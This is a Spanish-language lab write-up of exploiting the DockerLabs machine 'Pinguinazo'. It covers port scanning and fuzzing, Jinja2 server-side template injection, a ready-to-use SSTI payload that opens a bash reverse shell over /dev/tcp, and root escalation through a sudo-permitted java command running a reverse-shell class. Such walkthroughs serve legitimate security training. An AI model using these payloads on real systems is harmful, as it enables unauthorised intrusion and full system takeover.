





# 🧠 Informe de Pentesting – Máquina: Pinguinazo

### 💡 Dificultad: Fácil

### 🧩 Plataforma: DockerLabs

---


---

Se realizó una prueba de conectividad hacia la máquina objetivo para validar alcance en la red.

```bash
ping -c4 172.17.0.2
```


---

Posteriormente se ejecutó un escaneo completo de puertos utilizando Nmap para identificar servicios expuestos.

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## 📌 Puertos detectados

* `5000/tcp`

---

Después se realizó un reconocimiento más detallado sobre el puerto descubierto con el objetivo de identificar versiones y tecnologías utilizadas por el servicio.

```bash
sudo nmap -sCV -p5000 172.17.0.2
```


---

Se accedió al servicio web alojado en el puerto detectado.

```bash
http://172.17.0.2:5000
```



---

Posteriormente se realizó un proceso de fuzzing de directorios y archivos para descubrir rutas ocultas dentro de la aplicación.

```bash
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 0 --delay 200ms -t 2
```

Durante el proceso se descubrió el directorio `console`, el cual solicitaba autenticación.





---

Al realizar pruebas sobre el formulario principal de la aplicación se identificó que el backend trabajaba con **Flask** y utilizaba el motor de plantillas **Jinja2**.

Se observó que el contenido introducido por el usuario era procesado directamente por el motor de plantillas sin validaciones ni sanitización adecuada, permitiendo la ejecución de expresiones dinámicas.

Payload utilizado para validar la vulnerabilidad:

```jinja2
{{7*7}}
```

La aplicación devolvió el resultado procesado por Jinja2, confirmando que el contenido enviado era interpretado por el servidor.

---

## 📌 Análisis de la vulnerabilidad

Jinja2 evalúa cualquier contenido colocado entre:

```jinja2
{{ ... }}
```

Normalmente esto se utiliza para renderizar variables legítimas dentro de una plantilla:

```jinja2
{{ nombre }}
{{ usuario.email }}
```

Sin embargo, la aplicación estaba procesando directamente el contenido enviado por el usuario como si fuera parte de la plantilla.

La explotación se realizó utilizando acceso a objetos internos de Python hasta llegar al módulo `os` y ejecutar comandos del sistema operativo.

Fragmento utilizado:

```jinja2
{{ self.__TemplateReference__context.joiner.__init__.__globals__.os.popen(...) }}
```

La cadena anterior permitió alcanzar:

```python
os.popen()
```

y posteriormente ejecutar comandos directamente sobre el sistema.

---

## 📌 Funcionamiento interno de la explotación

La aplicación probablemente utilizaba funciones inseguras similares a:

```python
render_template_string(user_input)
```

o:

```python
template = f"<h1>{dato_usuario}</h1>"
```

En lugar de tratar el contenido como texto plano, Flask/Jinja2 lo interpretaba como una plantilla válida.

---

## 📌 Obtención de ejecución remota de comandos

Se utilizó el siguiente payload para establecer una reverse shell hacia la máquina atacante:

```jinja2
{{request.application.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"').read()}}
```

El payload ejecuta:

```bash
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```

Lo que permite:

* abrir una conexión TCP hacia la máquina atacante
* redirigir la entrada y salida estándar
* obtener una terminal interactiva remota

---

## 📌 Preparación del listener

Antes de enviar la petición se levantó un listener con Netcat en la máquina atacante:

```bash
sudo nc -lvnp 4444
```

Una vez enviada la petición vulnerable, se recibió la conexión reversa desde el contenedor comprometido.



---

# 📌 Escalada de privilegios

## 📌 Análisis del usuario pinguinazo

Durante la enumeración también se identificó el usuario `pinguinazo`, el cual poseía permisos especiales en `sudo`.

```bash
sudo -l
```

Resultado:

```bash
(ALL) NOPASSWD: /usr/bin/java
```

Esto significa que el usuario podía ejecutar `java` como `root` sin necesidad de contraseña.

---

## 📌 Explotación de privilegios mediante Java

Se creó un archivo Java malicioso que ejecutaba una reverse shell utilizando `Runtime.getRuntime().exec()`.

Contenido del archivo:

```java
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.0.105/444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Posteriormente el archivo fue ejecutado con privilegios elevados:

```bash
sudo java revshell.java
```
Nota: Antes de ejecutar el .java se tiene que poner en escuha otra terminal del atacante

Esto permitió ejecutar comandos como `root` aprovechando la configuración insegura de `sudoers`.

---

## 📌 Evidencia de privilegios máximos

Finalmente se confirmó el acceso total al sistema comprometido.



---

